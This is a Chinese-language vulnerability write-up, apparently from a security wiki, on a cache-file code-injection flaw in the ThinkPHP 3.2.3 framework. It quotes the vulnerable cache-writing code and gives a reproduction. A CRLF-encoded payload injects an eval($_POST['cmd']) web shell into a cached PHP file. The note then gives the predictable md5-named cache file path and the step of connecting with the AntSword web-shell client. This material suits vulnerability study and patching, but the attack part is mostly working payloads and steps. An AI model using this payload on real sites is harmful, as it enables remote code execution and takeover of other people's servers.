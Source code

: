 Thinkphp 3.2.3 缓存漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Thinkphp 3.2.3

三、复现过程
------------

### 漏洞分析

-   直接跟进到`/Library/Think/Cache/File.class.php`文件，看到set方法：

```{=html}
<!-- -->
```
-   /**
             * 写入缓存
             * @access public
             * @param string $name 缓存变量名
             * @param mixed $value  存储数据
             * @param int $expire  有效时间 0为永久
             * @return boolean
             */
            public function set($name,$value,$expire=null) {
                N('cache_write',1);
                if(is_null($expire)) {
                    $expire =  $this->options['expire'];
                }
                $filename   =   $this->filename($name);
                $data   =   serialize($value);
                if( C('DATA_CACHE_COMPRESS') && function_exists('gzcompress')) {
                    //数据压缩
                    $data   =   gzcompress($data,3);
                }
                if(C('DATA_CACHE_CHECK')) {//开启数据校验
                    $check  =  md5($data);
                }else {
                    $check  =  '';
                }
                $data    = "<?php\n//".sprintf('%012d',$expire).$check.$data."\n?>";
                //data参数经过序列化，直接被写到文件内。

                $result  =   file_put_contents($filename,$data);
                if($result) {
                    if($this->options['length']>0) {
                        // 记录缓存队列
                        $this->queue($name);
                    }
                    clearstatcache();
                    return true;
                }else {
                    return false;
                }
            }

```{=html}
<!-- -->
```
-   写一个调用缓存函数的的方法，运行一下。看看写进去什么

```{=html}
<!-- -->
```
-   <?php
        namespace Home\Controller;
        use Think\Controller;
        class IndexController extends Controller {

            public function index(){
                $a=I('post.a3');
                S('name',$a);
            }
        }

```{=html}
<!-- -->
```
-   在set方法下断点，访问
    `http://www.0-sec.org/index.php/Home/Index/index.html`
    ，post数据：`a3=aaaa`

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp3.2.3缓存漏洞/media/rId25.png)

可以看到\$data参数经过序列化，直接写入php后缀的文件。F9运行可以看到，在`Application/Runtime/Temp/`文件夹下生成了php文件。

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp3.2.3缓存漏洞/media/rId26.png)

-   写入到文件被行注释了。

-   `$data`参数未过滤`%0d%0a`可以用换行来绕过行注释，尝试post数据：

```{=html}
<!-- -->
```
-   `a3=%0d%0aeval($_POST['cmd']);%0d%0a//`

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp3.2.3缓存漏洞/media/rId27.png)

-   之后用蚁剑连接成功

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp3.2.3缓存漏洞/media/rId28.png)

### 总结

### Thinkphp3.2.3

1.  漏洞文件位置(一般审计得出)

-   `http://www.0-sec.org/index.php/Home/Index/get?id=%0d%0aeval($_POST['cmd']);%0d%0a//`

2.  缓存文件为缓存名的md5值，这里采用md5（name）=b068931cc450442b63f5b3d276ea4297

-   `http://www.0-sec.org/Application/Runtime/Temp/b068931cc450442b63f5b3d276ea4297.php`

3.  之后蚁剑连接。

参考链接
--------

> [https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/](https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10缓存漏洞/)
